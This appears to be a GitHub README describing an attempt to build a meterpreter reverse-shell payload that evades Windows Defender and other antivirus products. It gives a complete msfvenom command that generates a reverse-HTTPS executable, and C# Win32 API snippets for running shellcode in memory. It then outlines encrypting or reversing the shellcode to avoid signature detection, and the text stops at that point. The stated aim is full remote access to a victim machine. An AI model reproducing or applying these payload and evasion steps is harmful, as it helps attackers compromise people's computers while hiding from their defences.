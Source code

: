 # Windows Security Evasion, for research porpose

Malicious software that is running a reverse shell, to get full access remote to the victim machine and this software can easily bypass windows security / windows defender and others AV's, up to now (05/05/2022).


# Anti-Virus Evasion Research

I wanted to bypass the Windows Security Virus &amp; Threat Protection with some meterpreter malware that gives me access of the victim shell, so with I could get a reverse shell.

So I tried the vanilla version of the meterpreter that you can easily forge from msfvenom:

```msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=4444 -f exe -o test_exploit.exe```

With that I uploaded this piece of software that is executable for windows and it contains our malware vanilla (PE32+ executable (GUI) x86-64, for MS Windows). 

![](https://github.com/xbeatzsec/windows-security-evasion/blob/main/not_clean_vanilla.png)

As you can see it has been detected as a malware in 19 differents anti-virus, but this is not too good, because even a vanilla version of a malware can bypass or can be undetected in some anti-virus softwares in the market.

But our target (Windows Defewnder) detected it as a &quot;Trojan:Win64/Meterpreter.D&quot;, so we can play around with our payload and try to bypass, this is my mission during this research.

So in msfvenom we could create a exe file to run in windows system, but also we can create a payload from that software to create a shellcode containing the malware that we want to run in the victim system with windows defender running.

Shellcodes are pieces of machine code designed to run local or remote system shell (hence the name). They are mainly used during exploitation of software vulnerabilities - when an attacker is able to control program&#39;s execution flow he needs some universal payload to execute desired action (usually shell access). This applies to both local exploitation (e.g. for privilege escalation) and remote exploitation (for gaining RCE on a server).

But first let&#39;s use Win32 API that is built into Windows, and that is an application programmig interface written in C by Microsoft to allow access to Windows features.

It is used for malware development so we will use it too.

And why we should use it?

- It is built into Windows so functionallity doesn&#39;t have to be re-written´
- It doesn&#39;t get flagged by AV
- It is fast and usually well documented

We will use it first to run our shellcode, so with that we will start with VirtualAllloc to create a executable piece of memory, then we CreateThread to execute the shellcode in memory, and finally WaitForSingleObject to not crash upon receiving a command.

```csharp
static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStacksize,IntPtr lpStartAddress, IntPtr lpParameter,uint dwCreationFlags, IntPtr lpThreadId);
IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
WaitForSingleObject(hThread, 0xFFFFFFFF);
```

![](https://github.com/xbeatzsec/windows-security-evasion/blob/main/after_compile_1st.png)

After we compiled the file we got this result on the image above, we could bypass some of antivirus on the list but our windows defender still detecting our malware, so let&#39;s play around with our shellcode to maybe bypass it, we can encrypt our shellcode, we can reverse our byte array (shellcode). We do it now because we know that our Win32API aren&#39;t getting flagged by signature checks.

